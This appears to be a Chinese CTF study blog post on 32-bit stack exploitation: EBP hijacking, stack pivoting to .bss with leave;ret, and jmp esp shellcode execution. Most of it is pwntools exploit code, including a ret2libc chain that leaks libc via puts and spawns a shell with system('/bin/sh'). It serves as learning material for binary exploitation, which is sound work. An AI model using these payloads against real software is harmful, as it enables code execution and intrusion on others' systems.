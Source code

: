 ```yaml
---
layout: post
title:  "ebp劫持"
date:   2020-02-23 19:31:29 +0900
categories: jekyll update
---
```

### ebp 劫持

#### 一、修改main_ebp -> （实质）间接修改main_return_address

main_ebp -> target_addr 

```python
main -> func(a,b)




b
a
func_return_main
				<= func_ebp = main_ebp (to fake)
				
				
				
				<= fun_esp
				
main_return_address -> target_func
main_ebp -> target_address
				
				
```

```python
paylaod = padding + p32(target_func) + p32(target_addr)
```

**即修改main_ebp ,在 main 函数返回时，leave ;	ret ;**

**leave 后 esp = ebp ，再pop ebp;那么 esp -> 返回地址。即在之前布置ebp的高4字节处改为system -> getshell**

#### 栈劫持

对于wiki上的 ret2libc 的题可以利用栈劫持(pop_ebp + leave_ret)去做(即只利用了一次栈溢出) //没有

```python
payload   = padding + (esp_padding?)  + fake_ebp

payload += p32(elf.plt["puts"]) + p32(pop_ret) + p32(elf.got["puts"])

payload += p32(elf.plt["gets"]) + p32(pop_ret) + p32(bss_addr)

payload += p32(pop_ebp_ret) + p32(bss_addr) + p32(leave_ret)
#ebp -> bss  ; mov esp,ebp  ; pop ebp  ;  ret ->system

p.sendlineafter("Can you find it!?",payload)
puts_addr = u32(p.recv(4))
libc_base = puts_addr - libc.symbols["puts"]
libc.address = libc_base
system = libc.symbols["system"]
binsh = libc.search("/bin/sh").next()

payload = "junk" + p32(system) + "junk" + p32(binsh)
p.sendline(payload)
p.interactive()
```



#### 三、 若有，可以利用 jmp  esp;

```
jmp_esp_addr = 0x8048504
shellcode = " " # 短的sc
padding = ''
payload = ''
payload +=shellcode.ljust(padding + fake_ebp ,"\x90")
payload += asm("sub esp,40;jmp esp")
hyq.sendlineafter(" ",payload)
hyq.interactive()
```

即劫持eip = esp ; 利用往栈上写指令，写shellcode 并执行 -> getshell.



参考链接：https://www.bilibili.com/video/BV1JV411m7PC?p=3
